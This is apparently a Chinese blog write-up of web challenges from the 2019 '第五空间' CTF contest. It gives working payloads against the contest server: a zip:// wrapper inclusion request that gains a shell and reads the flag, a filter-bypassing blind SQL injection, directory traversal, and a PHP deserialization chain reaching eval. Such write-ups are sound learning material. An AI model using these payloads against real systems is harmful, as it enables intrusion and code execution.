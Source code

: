```yaml
---
title: “第五空间”网络安全大赛
date: 2019-08-28 08:05:12
tags: skills
menu: 
    Go Home: /index.html
categories: 技术分享
cover: /gallery/thumbnails/kiyohime.jpg
thumbnail: /gallery/thumbnails/kiyohime.jpg
toc: true
comments: true
---
```

----
#### 一更  2019.8.23
#### 二更  2019.9.1
----

# 一、前言

本次比赛没有腥风血雨，没有酣畅淋漓，从早到晚，只做出来**一道题**，还是**签到题**，还是在将近中午的时候看了主办方发在平台上~~极不显眼~~的公告。。。。。。

~~（中年大叔自闭中）~~

<!-- more -->
<!--more-->

# 二、题解

还是具体讲一下部分题的解法吧，本人水平不胜菜鸡，实感惭愧

## 1.空性

![avatar](/gallery/pictures/2019-8-28/1.png)

查看源码，发现用户名和密码是本地JS校验，查看JS源码得知用户名是Youguess，密码随意

![avatar](/gallery/pictures/2019-8-28/2.png)

还可以直接跳转到http://111.33.164.4:10003/151912db206ee052.php

![avatar](/gallery/pictures/2019-8-28/3.png)

之后就没有思路了，，，，

(更新)

存在文件泄露http://111.33.164.4:10003/.151912db206ee052.php.swp
```
4 error_reporting(0);
5 class First{
6   function firstlevel(){
7       $a='whoami';
8       extract($_GET);
9       $fname = $_GET['fname']?$_GET['fname']:'./js/ctf.js';
10      $content=trim(file_get_contents($fname));
11      if($a==$content)
12      {
13          echo 'ok';;
14      else
15      {
16          echo '听说你的Linux用的很6？';
17      }
18      }
19  }
20 $execfirst = new First();
21 $execfirst -> firstlevel();
```
存在变量覆盖，之后显示一个新的地址

>2d019a311aaa30427.php?refer=df53ca268240ca76670c8566ee54568a&t=20190828&dtype=computer&file=3792689baaabc7eb&hash256=9c062d7697674fb92d0a03c2bf3b6ad6

上传zip，然后利用zip伪协议包含getshell。
```
POST /2d019a311aaa30427.php?refer=df53ca268240ca76670c8566ee54568a&t=20190828&dtype=com
puter&file=?&file=zip://upload/6e5555b6856e20.zip%231&hash256=25db8caabd7e5c2b6976fa657
112c4b7 HTTP/1.1
Host: 111.33.164.4:10003
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
0=cat flagishere/c5a3038d0aeb393711c53abe41dd15f2.php
```

## 2.空相  

题目提示有个参数叫id，遂尝试/?id=1, /?id=2, /?id=1 and 2

![avatar](/gallery/pictures/2019-8-28/4.png)
（这是id=1 and 2）

![avatar](/gallery/pictures/2019-8-28/5.png)
（这是id=2）

告诉了我们一个新的文件 ./25d99be830ad95b02f6f82235c8edcf7.php，访问得到一串乱码

![avatar](/gallery/pictures/2019-8-28/6.png)

看来和token有关，公告说token是登录时下发的，那就截取登录响应包获得token（官方告诉在浏览器里找，不过我没找到）

获取token后输入……/25d99be830ad95b02f6f82235c8edcf7.php/?token=……就能得到flag

## 3.五叶  

开局一个login界面，尝试普通的sql注入，发现= ' and or等均被过滤，遂卡住，，，学长提示：
>user=admin&password=1'||IF(username regexp'^admin$',1,0)||sleep(0.5))#--+a&login=Login

成功登录

![avatar](/gallery/pictures/2019-8-28/7.png)

继续访问该php，发现还是需要token，在url后添加/?token=xxxx后可得flag

该题重点难点在于如何绕过比较严格的非法字符检测，具体原理有待分析

>以下补充内容来自学长的wp:

## 4.六尘

这个网站curl能ssrf，但是没啥用，通过其他题目得知通过存在一个flagishere获取利用token取得的flag。访问http://111.33.164.4:10005/flagishere/后发现存在目录遍历，于是直接提交token获取flag。
>http://111.33.164.4:10005/flagishere/6be8b547d6db1d213c1ceecc30b3cb24.php?token=1DJAVU22DOAFE800000020PIO5JH0MHN

## 5.八苦

http://111.33.164.4:10004/index.phps 存在代码泄露

```
error_reporting(0);
class Test{
    protected $careful=1;
    public $securuty;
    public function __wakeup(){
        if($this->careful===1){
            phpinfo(); // step 1: read source,get phpinfo and read it carefullt
        }
    }
    public function __get($name){
        return $this->securuty[$name];
    }
    public function __call($param1,$param2){
        var_dump(11);
        if($this->{$param1}){
            eval('$a='.$_GET['dangerous'].';');
        }
    }
}
class User{
    public $user;
    public function __wakeup(){
    $this->user=new Welcome();
    $this->user->say_hello();
    }
}
// $string=$_GET['foo']??$a;
// unserialize($string);
```
发现没法利用，但可以反序列化执行phpinfo。
```
http://111.33.164.4:10004/index.php?foo=O%3A4%3A%22Test%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00careful%22%3Bi%3A1%3Bs%3A8%3A%22securuty%22%3BN%3B%7D
```
发现有preload配置，加载此文件http://111.33.164.4:10004/this_is_a_preload.php
```
<?php
    class Welcome{
        public function say_hello(){
            echo "welcome<br>";
        }
    }
    class Welcome_again{
        public $willing;
        public $action;
        public function __construct(){
            $this->action=new Welcome;
        }
        public function __destruct(){
            if($this->willing){
                $this->action->say_hello();
            }
        }
    }
    highlight_file(__FILE__)
?>
```
然后就可以通过Welcome_again进行call调用，通过eval执行代码。
```
http://111.33.164.4:10004/index.php?foo=O%3A13%3A%22Welcome_again%22%3A2%3A%7Bs%3A7%3A%
22willing%22%3Bi%3A1%3Bs%3A6%3A%22action%22%3BO%3A4%3A%22Test%22%3A3%3A%7Bs%3A10%3A%22%
00%2A%00careful%22%3Bi%3A0%3Bs%3A8%3A%22securuty%22%3BN%3Bs%3A9%3A%22say_hello%22%3Bs%3
A4%3A%22null%22%3B%7D%7D&dangerous=phpinfo();
```
# 三、总结

这次比赛总的来说或许难度较大，但是成功暴露了我的知识的欠缺，尤其是在某个方面深入程度严重不足，pwn更是致命的弱点，全程一道pwn都没有做出来过，实在是惭愧。但我觉得如果开荒时期能有高人指点，或许能少走一些弯路，提高一些效率。

~~吐槽一波南开的服务器平台，点一下卡一年，装备不花一分钱~~